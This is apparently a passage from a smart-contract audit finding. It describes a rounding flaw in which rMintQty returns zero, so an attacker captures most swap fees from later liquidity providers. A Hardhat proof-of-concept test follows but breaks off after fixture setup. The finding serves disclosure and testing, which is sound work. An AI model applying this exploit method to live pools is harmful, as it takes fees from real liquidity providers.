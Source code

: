 If `rTotalSupply` is large enough and `reinvestLLast` is small enough, `rMintQty` will return zero and no new rTokens will be mint for following liquidity providers. The fees still accumulate and will go to exsiting rToken holders, i.e. the attacker and the pool itself.

The pool mints 100 rTokens initially to itself, but it doesn't prevent this attack. For example, the attacker can burn his tokens and has 1000 rTokens left. The pool swap fee will goes 10/11 to the attacker.

### PoC

Create file `test/PoC.spec.ts` with the following code.

```js
import { ethers, waffle } from 'hardhat';
import { BigNumber as BN, Wallet } from 'ethers';
import chai from 'chai';
const { solidity, loadFixture } = waffle;
chai.use(solidity);

import { MockFactory, MockPool, MockToken, MockToken__factory, MockPool__factory } from '../typechain';
import { MockCallbacks, MockCallbacks__factory } from '../typechain';

import { MIN_LIQUIDITY, MIN_TICK } from './helpers/helper';
import { ONE, MAX_UINT, PRECISION } from './helpers/helper';
import { deployMockFactory, getTicksPrevious } from './helpers/setup';
import { encodePriceSqrt } from './helpers/utils';
import { getPriceFromTick } from './helpers/utils';

let factory: MockFactory;
let token0: MockToken;
let token1: MockToken;
let pool: MockPool;
let callback: MockCallbacks;
let vestingPeriod = 100;

let ticksPrevious: [BN, BN] = [MIN_TICK, MIN_TICK];
let initialPrice: BN;


class Fixtures {
  constructor(
    public factory: MockFactory,
    public pool: MockPool,
    public token0: MockToken,
    public token1: MockToken,
    public callback: MockCallbacks
  ) { }
}

describe('PoC', () => {
  const [attacker, userB, userC, admin] = waffle.provider.getWallets();

  async function fixture(): Promise<Fixtures> {
    let [factory, poolOracle] = await deployMockFactory(admin, vestingPeriod);
    await factory.connect(admin).enableSwapFee(50, 10);

    const MockTokenContract = (await ethers.getContractFactory('MockToken')) as MockToken__factory;
    const tokenA = await MockTokenContract.deploy('USDC', 'USDC', PRECISION.mul(PRECISION));
    const tokenB = await MockTokenContract.deploy('DAI', 'DAI', PRECISION.mul(PRECISION));
    token0 = tokenA.address.toLowerCase() < tokenB.address.toLowerCase() ? tokenA : tokenB;
    token1 = token0.address == tokenA.address ? tokenB : tokenA;


```
